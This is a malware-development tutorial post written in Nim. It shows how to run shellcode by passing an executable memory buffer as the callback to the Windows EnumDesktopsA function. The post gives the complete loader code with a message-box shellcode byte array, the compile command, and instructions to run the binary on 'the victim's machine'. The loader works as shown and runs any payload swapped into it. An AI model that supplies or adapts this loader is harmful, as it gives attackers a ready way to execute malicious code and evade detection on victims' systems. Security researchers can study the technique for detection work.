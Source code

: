 \newpage
\subsection{50. malware development trick. Run payload via EnumDesktopsA. Simple Nim example.}

﷽

![malware](./images/123/2024-06-12_14-34.png){width="80%"}      

This post is just checking correctness of running payload via EnumDesktopsA in Nim programming language.    

`EnumDesktopsA` function passes the name of each desktop to a callback function defined by the application:

```cpp
BOOL EnumDesktopsA(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);
```

### practical example

Just update our C code from one of the previous [posts](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) with Nim language:    

```python
import system
import winim

when isMainModule:
  let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]

  let mem = VirtualAlloc(
    NULL, cast[SIZE_T](payload.len), 
    MEM_COMMIT, PAGE_EXECUTE_READWRITE
    )
  RtlMoveMemory(
    mem, 
    unsafeAddr payload[0], 
    cast[SIZE_T](payload.len)
    )
  EnumDesktopsA(
    GetProcessWindowStation(), 
    cast[DESKTOPENUMPROCA](mem), 
    cast[LPARAM](NULL)
    )
```

As usual, I used `meow-meow` messagebox payload:    

```python
let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]
```

### demo

Let's check it in action. Compile it:    

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

![malware](./images/123/2024-06-12_14-42.png){width="80%"}         

Then, just move it to the victim's machine (Windows 11 in my case) and run:    

```powershell
.\hack.exe
```

![malware](./images/123/2024-06-12_14-35.png){width="80%"}     

As you can see, everything is worked perfectly also for Nim language =^..^=!     

[Malware development trick 20: Run shellcode via EnumDesktopsA, C example](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-06-12-malware-trick-39)    
